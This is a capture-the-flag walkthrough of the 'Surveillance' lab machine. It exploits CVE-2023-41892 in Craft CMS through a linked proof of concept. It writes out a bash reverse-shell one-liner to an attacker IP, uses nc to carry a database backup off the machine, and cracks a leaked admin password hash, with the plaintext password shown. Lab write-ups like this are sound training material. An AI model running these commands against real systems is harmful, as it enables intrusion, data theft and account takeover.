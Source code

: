 # Surveillance

Difficulty Medium 

## Enumeration

```
nmap --vv -sS -sCV -p- --min-rate 5000 -oX 10.10.11.245.xml 10.10.11.245
```

| Port | Service | Info |
| ---- | ----	 | ---- |
| 22 | ssh | |
| 80 | http | http-title: Did not follow redirect to http://surveillance.htb/ |

Adding the domain to hosts

```
echo '10.10.11.245 surveillance.htb' | sudo tee -a /etc/hosts
```

Footer-Section reveals Versionnumber of CMS. Following the link and selecting the register-tab Security show serveral issues. 
```
<!-- footer section -->
  <section class="footer_section">
    <div class="container">
      <p>
        &copy; <span id="displayYear"></span> All Rights Reserved By
        SURVEILLANCE.HTB</a><br> <b>Powered by <a href="https://github.com/craftcms/cms/tree/4.4.14"/>Craft CMS</a></b>
      </p>
    </div>
  </section>
```

## Foothold

For the Critical issue with the CVE-2023-41892 a poc can be found:

https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226

There are other POC which are similar but haven't worked for me very well.
The main change is at the writePayloadToTempFile Function:
```
 response = requests.post(url, headers=headers, data=data, files=files) 
```

Instead of files=files is a proxy used. So check if you got the right one and not the forked poc. 

Upgrading this webshell 
```
bash -c "bash -i >& /dev/tcp/10.10.14.13/1337 0>&1"
```

Copy the backup file surveillance--2023-10-17-202801--v4.4.14.sql.zip (~/html/craft/storage/backups)

Starting listener on attacker machine
```
nc -nlp 1338 > backup.zip
```

Tranfering file using nc from vitcim
```
nc -w 3 10.10.14.13 1338 < surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

In this backup we can find the hash for Matthew:
```
'Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'
```

Cracking the hash, hashcat or just use crackstation.net
```
echo '39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec' > hash.txt

hashcat --identify hash.txt
The following 8 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   1400 | SHA2-256                                                   | Raw Hash
  17400 | SHA3-256                                                   | Raw Hash
  11700 | GOST R 34.11-2012 (Streebog) 256-bit, big-endian           | Raw Hash
   6900 | GOST R 34.11-94                                            | Raw Hash
  17800 | Keccak-256                                                 | Raw Hash
   1470 | sha256(utf16le($pass))                                     | Raw Hash
  20800 | sha256(md5($pass))                                         | Raw Hash salted and/or iterated
  21400 | sha256(sha256_bin($pass))                                  | Raw Hash salted and/or iterated

hashcat -m 1400 -a 3 hash.txt /usr/share/wordlists/rockyou.txt
....
hashcat -m 1400 -a 3 hash.txt /usr/share/wordlists/rockyou.txt --show
39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec:starcraft122490
```

Login using the credentials we have cracked and get the user-flag.

